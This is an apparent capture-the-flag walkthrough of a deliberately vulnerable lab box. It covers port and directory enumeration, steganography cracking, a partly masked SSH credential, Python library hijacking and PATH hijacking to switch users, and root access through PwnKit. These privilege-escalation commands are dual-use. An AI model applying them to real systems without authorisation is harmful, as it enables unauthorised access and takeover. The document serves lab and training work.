 Started with a nmap scan
```
22 OpenSSH 7.6p1
80 Golang http server
```
Running nikto scan
Running gobuster scan
```
/img
/r   this page just says keep going which way do I go from here?
/poem    this is a poem  The poem is a nonsense poem called the The Jabberwock from 1871
/r/a/b/b/i/t 
```
Since I was not finding much I started to look at the pictures and the picture on the main site had a txt file hidden in it called `hint.txt` and the hint was `fallow the r a b b i t` 
`stegseek --crack pic.jpg -wl rockyou.txt` 
 none of the other pictures had anything in them
 Took a me a little bit but from the hint there is a folder on the webserver with a `/` after every letter looking in the source code of this website we found some creds these creds work for the ssh login now we have access to the server
 `alice:HowDo............................l` 
Looking in `alice` home folder there is a file called `walrus_and_the_carpenter.py` and looking at this file its not much other than reads `10` short poems out but it uses the `random` library from python looking for the path for the random.py file 
`find / -iname random.py 2>/dev/null` 
now we know that the import script stays after are home folder so we can make a python script called `random.py` and put this code in there 
```
import pty

pty.spawn("/bin/bash")
```
now we can run the python script with sudo as rabbit
`sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
and now we are the user rabbit in the home folder of rabbit there is a file called `teaParty` and its exacting `date` with out a absolute path so we can export are own path and  then make a script called date in the tmp folder since that's were we going to set it
`export PATH=/tmp:$PATH` 
and for the script
```
#!/bin/bash
/bin/bash
```
and then `chmod +x` the file and now we are `hatter` there is a plain txt password on his home folder and now we have a stable shell as `hatter` then got `root` with PwnKit